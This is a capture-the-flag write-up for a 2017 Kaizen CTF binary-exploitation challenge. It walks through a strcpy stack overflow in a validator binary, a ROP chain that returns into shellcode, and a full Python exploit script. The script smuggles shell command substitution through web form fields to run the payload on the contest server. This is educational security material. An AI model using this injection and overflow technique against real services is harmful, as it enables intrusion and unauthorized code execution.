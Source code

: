 # Writeup for Riggity Wrecked (coin, 700 pts, 2 solves), Kaizen CTF at Blackhat 2017

Description:

> "Command Injection? ... I'm just reading them in the order that I'm seeing them."
> Woah! I wonder if we can go deeper. Can we exploit the validator binary itself?
> Submit the contents of the file at /home/anatomypark/flag.txt.

## TL;DR

- `strcpy(local_var, argv[2])`

- Submit shellcode in `argv[1]`

- Execute ROP chain to pop from stack until we hit a pointer to the shellcode

- Return into shellcode

## Previous Knowledge

From the previous Coin challenges, we know that

- The `validator` binary is used to validate some user input

- The web page runs the binary with a POST request to `https://anatomypark.kaizen-ctf.com/api/v1/validateInviteCode`, supplying the parameters `name` and `invite`

- `validateInviteCode` effectively calls `system("validator <name> <invite>")`

## Analysing the Target

We perform some quick checks, before reversing the binary:

```
> file validator
validator: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=689ac5e07fd26cbf2fa963e632b71d07a294a0fd, stripped
```
32-bit binary, dynamically linked, stripped

```
> checksec validator
[*] 'validator'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
All exploit mitigation techniques are turned off: no RELRO, no stack canary, NX and PIE are disabled.

After these checks, we load the binary in IDA and quickly spot the vulnerability:
```c
void __cdecl sub_8048589(int argc, char **argv)
{
  char *s; // [sp+18h] [bp-70h]@3
  char *v6; // [sp+1Ch] [bp-6Ch]@3
  char v7[64]; // [sp+20h] [bp-68h]@3
  signed __int32 v13; // [sp+74h] [bp-14h]@3

  if ( argc == 3 )
  {
    s = argv[1];
    strcpy(v7, argv[2]);
    v6 = sub_804850B(v7);
    v13 = strlen(s);
    if ( v13 <= 7 || v13 > 32 || v13 & 3 )
    {
      puts("failure");
    }
    else
    {
      [ ... ]
    }
  }
  else
  {
    puts("failure");
  }
}
```
We get an unbounded `strcpy` in a local variable, and if the first argument (the name) is longer than 32 characters, the function quickly returns, giving us the opportunity to take control of EIP or launch a ROP chain.

## The Exploit

Since NX is disabled, we can supply shellcode via the first command line parameter (which is stored somewhere way up on the stack).

One method to jump to our shellcode would be to prepend a nop sled and overwrite the saved return address with a hardcoded address hopefully pointing into our nop sled. Due to ASLR and varying environment variables, the stack shifts between executions, and hitting our shellcode would require several tries.

However, there is a better method. The stack does not only store the command line parameters, but also pointers to them (in `*argv`); it turns out that these pointers have a fixed offset from the saved return address we can overwrite. Subsequently, we can build a ROP chain consisting of ret-gadgets and pop our way up the stack, until we arrive at the desired pointer to our shellcode, and from there return into the shellcode. Since `strcpy` appends a null byte to whatever it copied, we also have to replace the last two ret-gadgets with a pop-ret-gadget.

Another issue we have to consider is escaping non-ascii characters in our payload (remember the binary is run like `system("validator <name> <invite>")`). I used command substitution to wrap the shellcode in an `echo -ne` call.

Putting everything together, we end up with the following exploit script:
```python
from pwn import *
import requests

LOCAL_BINARY = './validator'

context.binary = LOCAL_BINARY

ADDR_RET = 0x08048588
ADDR_POP_RET = 0x0804837d

def payload(a=None, b=None):
    if args['REMOTE']:
        def enc(x):
            return "`bash -c 'echo -ne \"" + ''.join("\\x" + hex(ord(c))[2:] for c in x) + "\"'`"
        a = enc(a)
        b = enc(b)
        r = requests.post('https://anatomypark.kaizen-ctf.com/api/v1/validateInviteCode', data={'name' : a, 'invite' : b})
        print r.text
    elif args['GDB']:
        proc = gdb.debug([LOCAL_BINARY, a, b])
        print proc.recvall()
        proc.close()
    else:
        proc = process([LOCAL_BINARY, a, b])
        print proc.recvall()
        proc.close()

def exploit():
    sc = asm(shellcraft.cat('/home/anatomypark/flag.txt') + shellcraft.exit(0))
    a = sc
    b = 'A' * 108 + p32(ADDR_RET) * 0x31 + p32(ADDR_POP_RET)
    payload(a, b)

if __name__ == '__main__':
    exploit()
```
Flag: `KAIZEN{it_g0es_w1thout_saying_th4t_the_rickest_r1ck_would_have_th3_mortiest_m0rty}`
